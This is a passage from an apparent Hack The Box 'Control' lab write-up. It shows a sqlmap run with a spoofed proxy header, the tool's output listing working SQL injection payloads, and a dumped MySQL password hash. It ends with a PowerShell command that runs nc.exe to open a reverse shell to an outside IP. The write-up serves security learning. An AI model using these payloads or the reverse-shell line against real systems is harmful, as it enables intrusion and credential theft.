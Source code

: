 ![img](/images/writeup-control/9.png)

---

## Exploitation: SQL Injection (DB dump, file upload)

We can use sqlmap to exploit the flaw and dump the passwords in the databases, making sure to add the proxy header to the requests for good measure:

```aaa
baud@kali:~/HTB/control$ sqlmap --passwords -u http://10.10.10.167/search_products.php --data='productName=name' --headers='X-Forwarded-For: 192.168.4.28'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:07:45 /2020-04-05/

[22:07:45] [INFO] resuming back-end DBMS 'mysql' 
[22:07:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-3076' OR 6013=6013#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=name' AND (SELECT 4131 FROM(SELECT COUNT(*),CONCAT(0x7178627071,(SELECT (ELT(4131=4131,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- dzoa

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=name';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=name' AND (SELECT 4951 FROM (SELECT(SLEEP(5)))YygG)-- NmJz

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=name' UNION ALL SELECT NULL,CONCAT(0x7178627071,0x6a49496f58625764426b464f4c6f6f4d746c4556795965514d6442736f747a527778414d726c7a64,0x7176627871),NULL,NULL,NULL,NULL#
---
[22:07:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:07:45] [INFO] fetching database users password hashes
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:07:49] [INFO] writing hashes to a temporary file '/tmp/sqlmap0n205v2b6830/sqlmaphashes-krexg5ga.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] n
database management system users password hashes:
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```

[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }